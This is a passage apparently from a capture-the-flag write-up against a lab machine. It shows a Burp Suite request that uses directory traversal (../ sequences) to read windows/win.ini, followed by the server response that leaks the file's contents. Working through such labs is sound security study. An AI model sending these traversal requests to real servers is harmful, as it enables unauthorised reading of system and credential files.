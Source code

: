 * And you notice when you make the request the website path goes back to:

```
https://ip/
```

* Use Burp Suite repeater to make the request manually&#x20;

```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-type: 
Content-Length: 92
Connection: close
AuthInfo: 

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

